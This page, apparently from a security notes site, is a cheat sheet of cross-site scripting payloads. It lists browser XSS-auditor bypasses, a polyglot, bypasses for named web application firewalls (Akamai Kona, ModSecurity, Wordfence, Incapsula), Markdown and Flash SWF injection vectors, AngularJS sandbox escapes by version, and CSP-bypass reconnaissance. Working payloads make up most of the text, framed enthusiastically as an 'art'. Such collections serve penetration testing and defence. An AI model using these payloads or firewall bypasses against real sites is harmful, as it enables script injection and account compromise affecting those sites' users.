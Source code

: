 ```yaml
---
cover: >-
  https://images.unsplash.com/photo-1587321965030-035a856311d6?crop=entropy&cs=srgb&fm=jpg&ixid=M3wxOTcwMjR8MHwxfHNlYXJjaHwyfHxleHBsb2l0fGVufDB8fHx8MTY5MzkwNjk4Nnww&ixlib=rb-4.0.3&q=85
coverY: 0
---
```


# 🦊 The Art of XSS Exploitation

In the fast-paced realm of cybersecurity, where every click can hide a lurking danger, a new breed of tech-savvy guardians is rising. Armed with code and creativity, they venture into the uncharted territory of Cross-Site Scripting (XSS) vulnerabilities. Join us on this exciting journey through the art of XSS exploration.

**Chrome XSS-Auditor Bypasses: Crafting the Perfect Code**

Meet the masterminds of code manipulation. [@vivekchsm](https://twitter.com/vivekchsm) demonstrates a dazzling Chrome XSS-Auditor Bypass:

```html
<svg><animate xlink:href=#x attributeName=href values=&#106;avascript:alert(1) /><a id=x><rect width=100 height=100 /></a>
```

But wait, there's more! Dive into the pre-v60 beta Chrome XSS-Auditor Bypass:

```html
<script src="data:,alert(1)%250A-->
```

For those who crave variety, try these other Chrome XSS-Auditor Bypasses:

```html
<script>alert(1)</script
```

```html
<script>alert(1)%0d%0a-->%09</script
```

```html
<x>%00%00%00%00%00%00%00<script>alert(1)</script>
```

**Safari's XSS Vector: Where Art Meets Mischief**

[@mramydnei](https://twitter.com/mramydnei) unveils a mesmerizing Safari XSS Vector:

```html
<script>location.href;'javascript:alert%281%29'</script>
```

**XSS Polyglot: The Multilingual Mischief Maker**

[Ahmed Elsobky](https://github.com/0xSobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot) presents the XSS Polyglot, a true linguistic masterpiece:

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

**Breaking Kona WAF (Akamai) Barriers: A Stroke of Genius**

Witness the brilliance of Kona WAF (Akamai) Bypass:

```html
\');confirm(1);//
```

**Mastering ModSecurity WAF Bypass: A Strategic Endeavor**

Bypassing ModSecurity WAF is an art that depends on the application's security level. A true artist knows the rules. [Learn more](https://modsecurity.org/rules.html).

```html
<img src=x onerror=prompt(document.domain) onerror=prompt(document.domain) onerror=prompt(document.domain)>
```

**Wordfence XSS Bypasses: A Symphony of Vulnerabilities**

Unlock the hidden potential of Wordfence XSS Bypasses:

```html
<meter onmouseover="alert(1)"
```

```html
'">><div><meter onmouseover="alert(1)"</div>"
```

```html
>><marquee loop=1 width=0 onfinish=alert(1)>
```

**Incapsula WAF Bypasses: A Choreography of Code**

[@i\_bo0om](https://twitter.com/i\_bo0om) orchestrates Incapsula WAF Bypasses:

```html
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
```

```html
<img/src=q onerror='new Function`al\ert\`1\``'>
```

**jQuery < 3.0.0 XSS: Unveiling Vulnerabilities**

[Egor Homakov](https://github.com/jquery/jquery/issues/2432) reveals the jQuery XSS with these captivating lines of code:

```js
$.get('http://sakurity.com/jqueryxss')
```

Unlock the full potential of this jQuery XSS by exploring cross-domain requests and trusted API endpoints.

**URL Verification Bypass: A Journey Beyond `&#x09;`**

Take your exploits to new heights with URL verification bypasses:

```
javas&#x09;cript://www.google.com/%0Aalert(1)
```

**Markdown XSS: A Subtle Intrusion**

Explore the art of Markdown XSS with these intriguing examples:

```md
[a](javascript:confirm(1))
```

```md
[a](javascript://www.google.com%0Aprompt(1))
```

```md
[a](javascript://%0d%0aconfirm(1))
```

```md
[a](javascript://%0d%0aconfirm(1);com)
```

```md
[a](javascript:window.onerror=confirm;throw%201)
```

```md
[a]: (javascript:prompt(1))
```

```md
[a]:(javascript:alert(1))           //Add SOH Character
```

**Flash SWF XSS: A World of Imagination**

```markdown
Delve into the enchanting realm of Flash SWF XSS, where creativity knows no bounds:
ZeroClipboard: ZeroClipboard.swf?id=\"))}catch(e){confirm(/XSS./.source);}//&width=500&height=500&.swf
plUpload Player: plupload.flash.swf?%#target%g=alert&uid%g=XSS&
plUpload MoxiePlayer: Moxie.swf?target%g=confirm&uid%g=XSS (also works with Moxie.cdn.swf and other variants)
FlashMediaElement: flashmediaelement.swf?jsinitfunctio%gn=alert1
videoJS: video-js.swf?readyFunction=confirm and video-js.swf?readyFunction=alert%28document.domain%2b'%20XSS'%29
YUI "io.swf": io.swf?yid=\"));}catch(e){alert(document.domain);}//
YUI "uploader.swf": uploader.swf?allowedDomain=\%22}%29%29%29}catch%28e%29{alert%28document.domain%29;}//<
Open Flash Chart: open-flash-chart.swf?get-data=(function(){alert(1)})()
AutoDemo: control.swf?onend=javascript:alert(1)//
Adobe FLV Progressive: /main.swf?baseurl=asfunction:getURL,javascript:alert(1)// and /FLVPlayer_Progressive.swf?skinName=asfunction:getURL,javascript:alert(1)//
Banner.swf (generic): banner.swf?clickTAG=javascript:alert(document.domain);//
JWPlayer (legacy): player.swf?playerready=alert(document.domain) and /player.swf?tracecall=alert(document.domain)
SWFUpload 2.2.0.1: `swfupload.swf?movieName="]);}catch(e){}if(!self.a)self.a=!confirm(1);//`
Uploadify (legacy): uploadify.swf?movieName=%22])}catch(e){if(!window.x){window.x=1;confirm(%27XSS%27)}}//&.swf
FlowPlayer 3.2.7: flowplayer-3.2.7.swf?config={"clip":{"url":"http://edge.flowplayer.org/bauhaus.mp4","linkUrl":"JavaScriPt:confirm(document.domain)"}}&.swf
```

_Note: For a comprehensive guide on constructing Flash-based XSS payloads, refer to_ [_MWR Labs_](https://labs.mwrinfosecurity.com/blog/popping-alert1-in-flash/)_._

**Lightweight Markup Languages: A World of Hidden Vulnerabilities**

Discover vulnerabilities lurking in lightweight markup languages:

**RubyDoc** (.rdoc)

```rdoc
XSS[JavaScript:alert(1)]
```

**Textile** ([.textile](https://txstyle.org/))

```textile
"Test link":javascript:alert(1)
```

**reStructuredText** ([.rst](http://docutils.sourceforge.net/docs/user/rst/quickref.html))

```rst
`Test link`__.

__ javascript:alert(document.domain)  
```

**Unleashing Unicode Characters: A Silent Intrusion**

Decode the hidden messages within Unicode characters:

```html
†‡•＜img src=a onerror=javascript:alert('test')>…‰€
```

**AngularJS Template Injection: The Art of Manipulation**

Navigate through the evolution of AngularJS Template Injection:

1.0.1 - 1.1.5 by [Mario Heiderich (Cure53)](https://twitter.com/0x6D6172696F)

```js
{{constructor.constructor('alert(1)')()}}
```

1.2.0 - 1.2.1 by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

1.2.2 - 1.2.5 by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

1.2.6 - 1.2.18 by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

1.2.19 - 1.2.23 by [Mathias Karlsson](https://twitter.com/avlidienbrunn)

```js
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```

1.2.24 - 1.2.29 by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

1.3.0 by [Gábor Molnár (Google)](https://twitter.com/molnar\_g)

```js
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```

1.3.1 - 1.3.2 by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf; 
    $eval('x=alert(1)//'); 
}}
```

1.3.3 - 1.3.18 by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join; 

  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
```

1.3.19 by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join; 
    $eval('x=alert(1)//'); 
}}

```

1.3.20 by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```

**Content Security Policy (CSP) Bypass: A Dance with Danger**

Unlock the secrets of bypassing CSP using JSONP endpoints. First, grab the target's CSP:

```
curl -I http://example.com | grep 'Content-Security-Policy'
```

Then, explore JSONP endpoints on whitelisted domains with a Google dork:

```
site:example.com inurl:callback
```

Embrace the world of XSS exploitation, where creativity and code converge to challenge the boundaries of digital security. Remember, with great power comes great responsibility. Stay ethical, stay safe, and continue to push the boundaries of cybersecurity.
